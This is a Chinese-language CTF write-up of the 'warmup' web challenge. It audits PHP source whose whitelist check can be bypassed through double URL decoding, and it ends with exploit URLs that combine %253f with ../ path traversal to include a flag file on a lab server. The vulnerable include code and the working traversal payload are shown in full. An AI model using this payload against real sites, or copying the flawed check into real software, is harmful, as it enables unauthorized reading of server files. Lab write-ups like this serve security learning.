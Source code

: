 # warmup
## 题目描述
暂无
## 思路
http://220.249.52.133:59657  
点开题目链接，一个大大的滑稽，查看源码，有个注释提示了 source.php 文件：  
![avatar](./picture/warmup_1.png)  
查看一下该文件，发现了 php 源码：  
http://220.249.52.133:59657/source.php  
![avatar](./picture/warmup_2.png)  
又发现了 hint.php 文件，再去访问一下，看看有什么提示：  
http://220.249.52.133:59657/hint.php  

说是 flag 在 ffffllllaaaagggg 这个文件中，再去回头审计一下 source.php 的源码：  
```php
<?php
    highlight_file(__FILE__);
    ......
    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
要想 include 想查看的文件，需要经过三个判断条件：  
  1. 值非空  
  2. 值为字符串类型  
  3. 满足 emmm::checkFile 的检查  
否则，输出滑稽表情。前两个好说，重点在 emmm::checkFile 的检查。因此，需要审计一下这段代码：  
```php
<?php
    highlight_file(__FILE__);
    class emmm {
        public static function checkFile(&$page){
            //白名单
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //必须设置值且值为字符串类型
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
            //值需要是白名单里的值
            if (in_array($page, $whitelist)) {
                return true;
            }
            //取拼接后的字符串中，第一个?之前的值
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//获得拼接后的字符串中，第一个?出现的位置
            );
            //更新后的值依然需要在白名单中
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url解码
            $_page = urldecode($page);
            //继续取拼接后的字符串中，第一个?之前的值
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //更新后的值依然需要在白名单中
            if (in_array($_page, $whitelist)) {
                return true;
            }
            
            //若以上带有 return true 的判断均未奏效，则返回 false
            echo "you can't see it";
            return false;
        }
    }
    ......
?>
```
经过分析发现，前三个带有 return true 的判断均难以利用，只有第四个，在 url 解码后进行判断的 return true 可以尝试利用，因此，把目光集中在这。这时会考虑二次注入，因为在服务器端提取参数时会解码一次，源码中又用 urldecode() 函数解码了一次。查询 url 编码可知 %253f 在二次解码后仍为 ?，因此，构造 url：  
http://220.249.52.133:59657/source.php?file=source.php%253f/ffffllllaaaagggg  
解释一下为什么构造 ?file=source.php 这一部分，因为如果直接使用 /source.php%253f/ffffllllaaaagggg 服务器无法辨识，此时尚未进入 php 源码的执行，因此，只能执行一次 url 解码。因此，需要让其进入代码再去执行。第一个 source.php 相当于进入 php 源码，?file=source.php%253f/ffffllllaaaagggg 部分，才是真正在 php 源码中执行的命令，即为 file 变量赋值source.php%253f/ffffllllaaaagggg。  
结果发现没啥用……判断有可能是在父目录中，因此用 ../ 去寻找 ffffllllaaaagggg 文件，耐心去找……终于在第五个 ../ 下，找到了对应文件：  
http://220.249.52.133:59657/source.php?file=source.php%253f../../../../../ffffllllaaaagggg  
![avatar](./picture/warmup_4.png)  
